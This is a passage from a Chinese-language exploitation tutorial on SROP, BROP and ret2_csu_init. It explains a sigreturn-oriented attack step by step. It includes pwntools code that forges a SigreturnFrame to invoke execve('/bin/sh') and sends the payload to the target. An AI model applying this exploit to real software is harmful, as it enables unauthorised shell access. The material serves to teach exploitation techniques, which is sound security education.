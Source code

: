 此时返回地址变为syscall ret；gadget的地址，因为读入的数据为15个字节，所以此时rax=15，进行rt_sigreturn 系统调用
此时栈中的信息如下：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/12.png)

（5）进行rt_sigreturn系统调用，返回时将栈中寄存器还原，调用read(0, stack_addr, 0x400)（第四次调用read），此时传入栈中（之前泄露的栈地址作为栈顶）的数据为：

```
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
payload += (0x120 - len(payload)) * 'a' + '/bin/sh\x00'
p.send(payload)
```

此时栈顶还是0x400b0，回到程序起始继续read操作，（伪造的SigreturnFrame是打算调用sys_execve("/bin/sh\x00")系统调用）
此时栈中的信息如下：

![](../image/2019-12-13-srop、brop和ret2_csu_init技术分析/13.png)
